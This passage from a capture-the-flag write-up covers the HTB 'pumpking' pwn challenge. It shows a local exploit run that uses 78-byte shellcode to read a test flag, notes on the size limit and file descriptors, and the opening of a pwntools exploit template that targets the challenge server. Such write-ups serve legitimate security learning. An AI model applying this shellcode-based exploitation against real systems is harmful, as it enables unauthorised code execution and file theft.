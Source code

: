 I test it locally and  it works!:

```shell
magor$ python solve_pumpking.py LOCAL
[*] '/HTB/ctf/2022-boo/2-pwn/pwn_pumpking/challenge/pumpking'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments
    RUNPATH:  b'./glibc/'
[+] Starting local process '/HTB/ctf/2022-boo/2-pwn/pwn_pumpking/challenge/pumpking': pid 5364
Len shellcode: 78
[*] Switching to interactive mode
\x00HTB{f4k3_fl4g_4_t35t1ng}
\xb8PH\xb8f/uyuH1\x04H\xb8/tmp/flaPH\x89\xe61\x[*] Got EOF while reading in interactive
```

> **Notes**: 
> - Due to we  are limited to send max `149` bytes (`0x95` hex) I have to ensure a short `path` so this is the reason i copy the testing flag to `/tmp`
> - I also search [`"openat" shellcode`](https://www.google.com/search?client=firefox-b-d&q=%22openat%22+shellcode) and found this [Shellcraft writeup](https://ctftime.org/writeup/33232) that is similiar to this challenge.
> - During the challenge, the staff make an update to include the `docker` data files to we know where is located the `flag.txt`. 

Now only change the path to the flag. To the docker spawned server is `/home/ctf/flag.txt`. But when I try to get the flag it fails!.

I build the docker locally to analize it. And I notice that with the docker, the file descriptor were the flag file is opened isn't the `3` it will be the `5`. So the finall code Script will be:


```python
# solve_pumpking.py 
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ./pumpking --host 159.65.49.148 --port 30454
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./pumpking')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or '159.65.49.148'
port = int(args.PORT or 30454)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io
```

[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true! Wish for everything, even for tha flag!
[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true! Wish for everything, even for tha flag!
[Pumpkgin]: Welcome naughty kid! This time of the year, I will make your wish come true! Wish for everything, even for tha flag!